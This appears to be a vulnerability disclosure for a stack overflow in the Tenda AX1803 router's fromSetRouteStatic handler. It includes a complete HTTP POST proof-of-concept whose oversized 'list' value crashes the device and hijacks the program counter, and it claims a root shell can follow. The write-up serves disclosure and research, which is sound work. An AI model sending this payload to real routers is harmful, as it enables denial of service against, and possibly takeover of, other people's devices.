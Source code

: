 #  Tenda AX1803 (V1.0.0.1) has a stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.tenda.com.cn
- Firmware download address ： https://www.tenda.com.cn/download/detail-3421.html

### Product Information

Tenda AX1803 V1.0.0.1, the latest version of simulation overview：

![image-20220724213031606](img/image-20220724213031606.png)

## Vulnerability details

The Tenda AX1803 (V1.0.0.1) was found to have a stack overflow vulnerability in the fromSetRouteStatic function. An attacker can obtain a stable root shell through a carefully constructed payload.

![image-20220804202859967](img/image-20220804202859967.png)

In the `fromSetRouteStatic` function, `v2` (the value of `list`) we entered will be passed into the `sub_78440` function as a parameter, and this function has stack overflow.

![image-20220805012624084](img/image-20220805012624084.png)

In the `sub_78440` function,the `a2`  (the value of `list`)  is formatted using the `_isoc99_sscanf` function and in the form of `%[^,],%[^,],%[^,],%s`. This greedy matching mechanism is not secure, as long as the size of the data we enter is larger than the size of `s`, it will cause a stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/SetStaticRouteCfg HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded;
Content-Length: 336
Origin: http://192.168.0.1
DNT: 1
Connection: close
Referer: http://192.168.0.1/index.html
Cookie: ecos_pw=eee:language=cn

list=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,b,c,d~
```

![image-20220804202006797](img/image-20220804202006797.png)

 By sending this poc, we can achieve the effect of a denial-of-service(DOS) attack .

![image-20220804235435725](img/image-20220804235435725.png)

As shown in the figure above, we can hijack PC registers.

![image-20220724220055672](img/image-20220724220055672.png)

Finally, you also can write exp to get a stable root shell.

